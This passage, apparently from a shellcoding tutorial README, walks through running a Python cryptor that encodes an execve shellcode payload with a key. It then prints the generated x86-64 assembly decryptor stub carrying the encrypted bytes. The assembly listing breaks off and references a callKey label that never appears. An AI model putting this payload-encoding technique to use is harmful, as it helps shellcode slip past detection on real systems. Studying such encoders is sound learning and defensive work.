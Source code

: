 ## Configurable Encryption Key
The encryption key is also configurable. Simply change the string of the varaible `key` within the python program to any key you wish. The length should not matter
```python 
key = "SoSecr3T"
```

## Testing Python Cryptor Program
Since we already have the payload set to our execve shellcode, we will run the cryptor. 
```bash
root# python 1-Cryptor-Add.py
[--------------Encrypted-Payload--------------]
Encryped Payload Size is: 0x26 Bytes
0x9b,0xa0,0x49,0xad,0x5a,0x58,0x7b,0x85,0x52,
0xc6,0x9b,0xe8,0x25,0xda,0x85,0x9c,0x0d,0x9e,
0xb5,0xce,0xd1,0xa1,0x95,0xb5,0xc6,0xc1,0x9b,
0x96,0x35,0xba,0xbc,0x3b,0x03,0xaa,0x62,0x6a,
0xaa,0xbb
[----------------Key-Info---------------------]
Key Size is: 8 Bytes
0x53,0x6f,0x53,0x65,0x63,0x72,0x33,0x54,0xee
decrypt.asm created successfully

```

+ We see that a file named decrypt.asm has been created.

# The Decryptor File
The python program created an assembly file that has our encrypted payload and encryption key loaded into it. All we need to do is compile it to get the decryptor shellcode.
```nasm
xor rcx, rcx  ; rcx = 0x0
mul rcx       ; rax&rdx = 0x0
jmp short callEncrypted
popEncrypted:
pop rdi       ; rdi = &Encrypted
jmp short callKey
popKey:
pop rax       ; rax = &key
resetKey:
push rax
pop rsi       ; rsi = &key
decryptLoop:
mov dl, [rsi]
sub [rdi], dl    ; decrypt byte of payload
inc rsi          ; next key byte
inc rdi          ; next encrypted byte
mov dx, 0xbbaa
cmp [rdi], dx    ; End of payload?
je payload
mov dl, 0xee
cmp [rsi], dl    ; End of key?
je resetKey
jmp short decryptLoop ; use next byte of key to decrypt
callEncrypted:
call popEncrypted
payload:
db   0x9b,0xa0,0x49,0xad,0x5a,0x58,0x7b,0x85,0x52,\
     0xc6,0x9b,0xe8,0x25,0xda,0x85,0x9c,0x0d,0x9e,\
     0xb5,0xce,0xd1,0xa1,0x95,0xb5,0xc6,0xc1,0x9b,\
     0x96,0x35,0xba,0xbc,0x3b,0x03,0xaa,0x62,0x6a,\
     0xaa,0xbb
```